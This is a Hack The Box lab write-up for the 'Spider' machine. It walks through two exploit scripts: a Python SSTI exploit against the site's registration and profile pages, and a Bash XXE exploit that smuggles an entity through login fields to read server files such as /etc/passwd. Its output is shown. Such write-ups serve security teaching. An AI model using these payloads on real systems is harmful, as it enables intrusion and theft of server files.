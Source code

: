 # Hack The Box. Machines. Spider

Machine write-up: https://7rocky.netlify.app/en/htb/spider

### `ssti.py`

This Python script is made to automate the explotation of a Server-Side Template Injection (SSTI) which appears when registering a new account at `http://spider.htb` and then reading the user profile. The vulnerable parameter is `username`.

We can perform the POST request using module `requests` (obviously). This request is done to `http://spider.htb/register` specifying `username`, `confirm_username`, `password` and `confirm_password` as request body:

```python
    data = {
        'username': username,
        'confirm_username': username,
        'password': password,
        'confirm_password': password
    }

    s = requests.session()
    r = s.post('http://spider.htb/register', data=data)
```

After that, we need to catch the UUID that the server gives us. For that we can use a regular expression using module `re`:

```python
    try:
        uuid = re.search(
            r'<input type="text" name="username" value="(.*?)" />', r.text).group(1)
    except AttributeError:
        print(r.text)
        sys.exit()
```

If an error occurs, we print the whole response to try looking for errors.

Then, we need to access to the profile created. For that, we need to perform another POST request (this time to `http://spider.htb/login`) specifying `uuid` and `password`:

```python
    s.post('http://spider.htb/login',
           data={'username': uuid, 'password': password})
    r = s.get('http://spider.htb/user')
```

However, this POST request only sets a cookie and redirects to the main page. By using a `requests` session we can keep the cookie for next requests.

If we access `http://spider.htb/user` (with a GET request), here is where we can see the SSTI payload being executed. We know that the data is in the `username` field. Again, using a regular expression we are able to extract the data we are interested in:

```python
    try:
        result = re.search(
            r'<input type="text" name="username" readonly value="(.*?)" />', r.text).group(1)
        result = result.replace('&#39;', "'").replace(
            '&lt;', '<').replace('&gt;', '>')
        print(result)
    except AttributeError:
        print(r.text)
```

Again, if an error occurs, we print the whole response.

Finally, we can execute the script as follows:

```console
$ python3 ssti.py '{{7*7}}'
49
```

### `xxe.sh`

This Bash script automates the process of reading files from the server exploiting an XML External Entity (XXE) injection.

We need to take into account how the XXE is exploitable. First, we need a port-forwarding so that port 8080 in the remote machine is mapped to port 8888 in our attacker machine (we did not choose 8080 because Burp Suite listens on that port).

Then, we can see that the data we provide in the login process is inserted in the cookie provided by the server (use Burp Suite or the browser developer tools to check the form parameters):

```console
$ curl http://localhost:8888/login -svH 'Content-Type: application/x-www-form-urlencoded' -d 'username=7Rocky&version=1.33.7'
*   Trying 127.0.0.1:8888...
* Connected to localhost (127.0.0.1) port 8888 (#0)
> POST /login HTTP/1.1
> Host: localhost:8888
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 30
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 217
< Location: http://localhost:8888/site
< Vary: Cookie
< Set-Cookie: session=.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ; HttpOnly; Path=/
< 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
* Connection #0 to host localhost left intact
<p>You should be redirected automatically to target URL: <a href="/site">/site</a>.  If not click the link.
```

To extract the data contained in the cookie, we can make use of module `flask_unsign` (you can install it with `pip`):

```console
$ python -m flask_unsign --decode --cookie '.eJxtzstqhDAAheFXKVl3YYIDHaGLhvE6GInmgtmNRKoY03QiVB3m3eumu67P-eF7ALPOBkQP8NKBCPCYJDpeGZ0KUcvFihnKXpZbl6nxxpOQpY700_rdIl3y_eNOkQt7mW8Vw1Shs204wQrijM_DVAf82A1WgblQqQsaJJbHg-yNaxsrlNgTz1M3cZRvzBZGZBqpZKi6lCxEDqOA__Xa9-Zzq-dlFGiFR4-r-Ofwubac1L012muBbYf-_uXpBk17eA7fW8gu5KrnfOeNfwfPV-C-Rrt4EAXPX_HQWOc.YXPYog.GJtBaEqASFJ3QxKY08rhwi3v5NQ'
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}

$ echo PCEtLSBBUEkgVmVyc2lvbiAxLjMzLjcgLS0+Cjxyb290PgogICAgPGRhdGE+CiAgICAgICAgPHVzZXJuYW1lPjdSb2NreTwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+ | base64 -d
<!-- API Version 1.33.7 -->
<root>
    <data>
        <username>7Rocky</username>
        <is_admin>0</is_admin>
    </data>
</root> 
```

So we have control of the `version` and the `username` field. To perform a XXE we need to insert an entity at the top of the XML document. The entity definition can be placed in the `version` parameter (after closing the comment tag). Then, in the `username` field we can call the entity.

This is the document we want to be generated:

```xml
<!-- API Version 1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<!-- Pwned -->
<root>
    <data>
        <username>BEGINTAG
&xxe;
ENDTAG</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

Notice that `BEGINTAG` and `ENDTAG` are placed to use `grep` and extract the relevant data (which will be rendered in `&xxe;`).

This parameters must be placed in a `curl` POST request to `http://localhost:8888/login` as data. We are interested in the cookie that the server returns. That is why we use verbose mode and use `grep` and `sed` to get the exact value of a valid Cookie header:

```bash
data="username=BEGINTAG
%26xxe;
ENDTAG&version=1.33.7 -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM \"file://$file\"> ]>
<!-- Pwned"

cookie=$(curl http://localhost:8888/login -vsd "$data" 2>&1 | grep session= | sed 's/< Set-//g' | tr -d '\r\n')
```

This data of `&xxe;` will be rendered in the website, so we can use `curl` to `http://localhost:8888/site` providing the cookie obtained before:

```bash
res=$(curl http://localhost:8888/site -sH "$cookie")
```

Finally, using `grep` we can filter the file contents. This is done by obtaining the line numbers where `BEGINTAG` and `ENDTAG` are in the HTTP response. Then we can print the data between those numbers using `sed`:

```bash
begin=$(( $(echo "$res" | grep -n BEGINTAG | awk -F : '{ print $1 }') + 1 ))
end=$(( $(echo "$res" | grep -n ENDTAG | awk -F : '{ print $1 }') - 1 ))

echo -n "$res" | sed -n "${begin},${end}p"
```

For example, we can use the script to read `/etc/passwd`:

```console
$ bash xxe.sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```
